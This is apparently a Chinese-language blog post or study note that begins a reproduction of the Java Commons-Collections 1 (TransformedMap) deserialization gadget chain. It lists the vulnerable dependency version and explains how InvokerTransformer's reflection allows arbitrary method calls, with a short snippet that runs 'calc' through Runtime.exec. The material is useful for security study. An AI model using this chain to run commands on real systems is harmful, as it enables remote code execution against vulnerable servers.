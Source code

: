 ```yaml
---
title: Java反序列化之CC1-TransFormed
date: 2023/5/1 15:00:25
categories:
- Java
tags:
- 反序列化
---
```


## CC1-TransFormed chains

### 环境

java<8u71

```xml
    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
    </dependencies>
```



### 复现

**Demo**

![image-20230923145638448](../images/image-20230923145638448.png)

关键点

```bash
# 能够任意命令执行的点
InvokerTransformer是实现了Transformer接⼝的⼀个类，这个类使用了反射，并且反射的参数可控，可以⽤来执⾏任意⽅法。
```

![image-20230923155216854](../images/image-20230923155216854.png)

```bash
# 手动调用InvokerTransformer的transfrom方法来执行命令
Runtime runtime = Runtime.getRuntime();
new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(runtime);
```

Demo代码解释

- 构造回调链

  ![image-20230923195149097](../images/image-20230923195149097.png)
